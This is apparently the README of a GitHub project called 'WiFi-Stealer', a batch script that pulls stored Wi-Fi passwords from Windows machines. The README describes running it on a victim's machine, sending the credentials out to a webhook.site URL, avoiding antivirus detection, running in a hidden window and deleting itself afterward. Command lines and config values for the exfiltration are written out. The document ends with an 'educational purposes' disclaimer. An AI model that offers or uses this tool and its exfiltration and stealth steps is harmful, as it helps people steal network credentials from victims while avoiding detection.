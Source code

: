 ## About
This is a simple batch program to grab Wi-Fi credentials from a local Windows machine.


## Features
- It does not need to be compiled.
- Runs on any windows machine (7/8.1/10/11).
- Undetectable by the default Windows Security AV (didn't test other AVs, but it should be also undetectable by them).
- Exfiltrated cedentials can be sent to a [webhook](https://webhook.site/) or saved locally to a txt file.
- The program has the ability to self-delete.
- To avoid problems caused by special characters, the credentials are also stored in a hexadecimal value (in the form `name:password`).

**Note**: When using [Webhook.site](https://webhook.site/), please take the expiration of the URLs into consideration.


## Usage
There is a wide variety of ways to run the program. You can choose to use it in whatever way suits your needs. But usually, you either run this program on your machine or on a target machine. Here are some examples on how you can use the program:

### Running the program on a local machine (yours)
To run the script and save the credentials in the default `txt` file (this code line sets the default text file: `set "credsfile=creds.txt"`), simply type:

```batch
> WiFi-Stealer.bat
```

Or you can specify a name for the `txt` file (or any file type), type this:

```batch
> WiFi-Stealer.bat --output "wifi-credentials.txt"
```

### Running the program on the target machine
Usually when running the program on a remote machine (program downloaded and executed by the victim) or on a machine that you gained physical access to, you need a way to retrieve the credentials. This is how you do it:

- **Specify the webhook as an argument**: Simply run the program and pass the URL of your webhook as an argument:

```batch
> WiFi-Stealer.bat --upload "https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- **Store the webhook inside the program**: If you can't run the program from the command prompt (or to avoid typing the url), ensure to save your webhook's URL in the variable `webhook` within the program. Another important step is to change the value of the `upload` variable from `0` to `1`. Once the program is executed, you will receive the credentials.

```batch
set upload=0

set "webhook=https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- Another cool feature is to make the program delete itself when it's done. To do this, you can simply change `selfdelete` varibale inside the program from `0` to `1`.

- To run the program in stealth (hidden) mode, remove the `::` form this line in the program:

```batch
::@powershell -window Hidden -command ""   &:: Uncomment if you want to run the program in hidden mode
```


## Screenshots

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_1.png)

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_2.png)


## ⚠️ DISCLAIMER
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
